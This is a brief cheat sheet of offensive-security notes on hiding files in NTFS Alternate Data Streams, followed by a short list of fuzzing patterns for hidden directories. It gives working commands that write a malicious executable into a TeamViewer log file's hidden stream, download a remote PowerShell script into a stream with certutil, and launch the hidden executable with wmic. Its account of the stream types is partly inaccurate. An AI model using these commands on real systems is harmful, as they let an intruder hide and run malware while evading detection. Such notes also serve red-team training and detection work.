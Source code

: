 # Uncategorized

### Alternate Data Streams:

* File on NTFS formatted drive has 2 streams:
  * Data stream: default stream - contains data
  * Resource stream: used for metadata
  * This is useful to hiding file
* Write to ADS
  * `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"`
* Download directly into ADS
  * `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
* Executing from ADS
  * `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  * NOTE: full path
* There are many other methods to add and execute
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f



### **Tips**

**Finding hidden directory**

```
/.FUZZ
/-FUZZ
/~FUZZ
/_FUZZ
```
